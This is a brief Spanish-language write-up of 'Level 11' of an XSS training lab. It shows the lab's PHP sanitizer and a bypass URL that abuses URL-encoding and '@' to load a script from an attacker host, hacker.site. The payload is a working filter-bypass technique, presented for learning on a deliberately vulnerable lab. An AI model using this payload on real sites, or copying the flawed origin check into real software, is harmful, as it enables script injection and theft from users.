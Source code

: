 ### Level 11

```
XSS 11 	Bypass the gorilla and you'll become a l33t 	ADVANCED 	OMG a gorilla! 
```

Función snitizadora:

```php
function Sanitizer($search){
   // No scripts from untrusted origins or you'll see a nice gorilla
   preg_match('#^(?:https?:)?\/\/11.xss.labs\/#is', urldecode($search), $matches);   
   if(empty($matches)) $search = "...untrusted...";   

   // don't break the src tag   
   $search = preg_replace('#"#', "", $search);
   // ehehe and now? Are you still a ninja?
   $search = strtoupper($search);
}
```
Inyección:
```html
http://11.xss.labs%2f@hacker.site/x.js
```

[back](./)


